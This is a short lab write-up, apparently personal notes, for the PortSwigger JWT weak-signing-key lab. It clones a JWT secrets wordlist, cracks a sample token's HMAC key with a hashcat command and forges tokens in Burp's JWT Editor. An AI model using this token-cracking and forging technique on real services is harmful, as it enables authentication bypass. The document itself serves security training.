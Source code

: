 https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-weak-signing-key
```sh
cd ~/Downloads
git clone https://github.com/wallarm/jwt-secrets/

```

Once cloned the wordlist repo, use hashcat
```sh
hashcat -a 0 -m 16500 eyJraWQiOiJjZTg5ZWM5Mi1mY2RlLTRiZDYtYWFiYi03OGMxYzA5Y2UwMDkiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0NTYxMzAyNywic3ViIjoid2llbmVyIn0.aamke36ORKAuVrdDuvMB-sEx3Kh91_8-yAPunsBPypM ~/wordlist/jwt-secrets/jwt.secrets.list 
```
Output:
![[Pasted image 20250425165857.png]]
	It's marked with `:`
go to JWT editor tab -> keys -> New Symmetric Key
Specify the secret and click generate
![[Pasted image 20250425163834.png]]